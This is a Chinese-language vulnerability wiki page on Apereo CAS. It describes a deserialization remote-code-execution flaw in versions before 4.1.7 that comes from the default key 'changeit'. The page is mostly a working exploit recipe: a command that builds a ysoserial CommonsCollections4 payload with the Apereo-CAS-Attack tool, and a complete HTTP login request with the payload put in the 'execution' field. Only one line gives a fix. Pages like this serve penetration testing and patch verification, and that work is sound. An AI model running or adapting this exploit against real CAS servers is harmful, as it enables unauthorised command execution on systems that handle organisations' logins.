 ```yaml
---
title: Apereo-CAS
---
```


## 应用简介

 Apereo CAS是一个开源的企业级单点登录系统

 * 一个开放且有据可查的协议
 * 开源Java服务器组件
 * 可插拔身份验证支持（LDAP，数据库，X.509、双因子）
 * 支持多种协议（CAS，SAML，OAuth，OpenID）
 * Java，.Net，PHP，Perl，Apache，uPortal等客户端的库
 * 与uPortal，BlueSocket，TikiWiki，Mule，Liferay，Moodle等集成
 * 社区文档和实施支持
 * 广泛的采用者社区

## [默认密钥]-4.1.x 反序列化RCE

**漏洞概述**

```http
#影响范围
Apereo-CAS < 4.1.7
```

其4.1.7版本之前存在一处默认密钥（changeit）的问题，利用这个默认密钥我们可以构造恶意信息触发目标反序列化漏洞，进而执行任意命令

**漏洞利用**

1、使用[Apereo-CAS-Attack](https://github.com/vulhub/Apereo-CAS-Attack)利用，ysoserial的CommonsCollections4生成加密后的Payload

```bash
java -jar apereo-cas-attack-1.0-SNAPSHOT-all.jar CommonsCollections4 "touch /tmp/success"
```

2、然后登录CAS并抓包，将Body中的`execution`值替换成上面生成的Payload

```http
POST /cas/login HTTP/1.1
Host: your-ip
Content-Length: 2287
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://your-ip:8080
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.89 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://your-ip:8080/cas/login
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: JSESSIONID=24FB4BAAE1A66E8B76D521EE366B3E12; _ga=GA1.1.1139210877.1586367734
Connection: close

username=test&password=test&lt=LT-2-gs2epe7hUYofoq0gI21Cf6WZqMiJyj-cas01.example.org&execution=[payload]&_eventId=submit&submit=LOGIN
```

**修复建议**

修改默认密钥